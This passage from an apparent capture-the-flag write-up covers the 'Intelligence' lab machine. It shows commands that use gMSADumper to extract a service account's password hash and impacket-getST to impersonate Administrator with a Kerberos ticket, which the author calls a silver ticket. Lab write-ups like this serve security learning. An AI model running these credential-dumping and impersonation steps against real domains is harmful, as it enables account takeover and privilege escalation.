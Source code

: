 In that article it links you to a tool called gMSADumper.py on [**this github**](https://github.com/micahvandeusen/gMSADumper) so I git clone it over to my system and run it.

`git clone https://github.com/micahvandeusen/gMSADumper.git`

 `python3 gMSADumper.py -u 'Ted.Graves' -p <REDACTED> -d intelligence.htb`
 
![](images2/intelligence16.png)

We get the hash back! Trying to crack it doesn't work, nor does trying it on crackstation or ntlm to password.

<br>

## Silver Ticket

Because svc_int$ is a service account we can try and request a silver ticket using impacket. Once we have the .ccache file I create an environmental variable named KRB5CCNAME pointing to it.

`impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes d365e889367ce3e3241b120db1df6e25:d365e889367ce3e3241b120db1df6e25`

`export KRB5CCNAME=/home/user/Administrator.ccache`

![](images2/intelligence17.png)
